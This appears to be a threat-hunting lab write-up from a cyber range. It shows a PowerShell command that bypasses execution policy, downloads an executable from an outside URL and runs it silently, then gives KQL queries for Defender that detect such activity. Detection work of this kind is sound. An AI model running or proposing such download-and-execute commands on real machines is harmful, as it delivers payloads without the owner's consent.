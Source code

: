 Upon running the detection rule, we identified the following PowerShell command executing on the compromised machine:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

This command triggered the download and installation of a malicious 7zip executable from an external URL. The executable was silently executed with the /S flag, which instructed the installer to run without user intervention (silent installation). 👾

Upon investigation, we determined that the malicious payload had been downloaded to `C:\ProgramData\7z2408-x64.exe` and was automatically executed, likely allowing the attacker to gain remote control of the machine. 🚨

---

## Detection and Response 🛡️

Once the suspicious activity was identified:

### 1. KQL Query to Find the RCE PowerShell Payload 🔍

To detect this type of activity, we used the following KQL query in Microsoft Defender for Endpoint (MDE):
```kql
DeviceFileEvents
| top 20 by Timestamp desc
```
```kql
DeviceNetworkEvents
| top 20 by Timestamp desc
```
```kql
DeviceProcessEvents
| top 20 by Timestamp desc
```
```kusto
let target_machine = "whateverYourMachineIsName";
DeviceProcessEvents
| where DeviceName == "trce12"
| where AccountName != "system"
| where InitiatingProcessCommandLine has_any ("Invoke-WebRequest", "Start-Process")
| order by Timestamp desc 
```

This query was designed to look for any PowerShell command that used Invoke-WebRequest to download a file and Start-Process to execute it. Specifically, it captures the activity related to the malicious payload execution, allowing us to detect the attack's presence within the last hour. 

![Screenshot 2025-01-12 173352](https://github.com/user-attachments/assets/cdd76fba-d585-4ecb-8b18-344465e49b45)

---
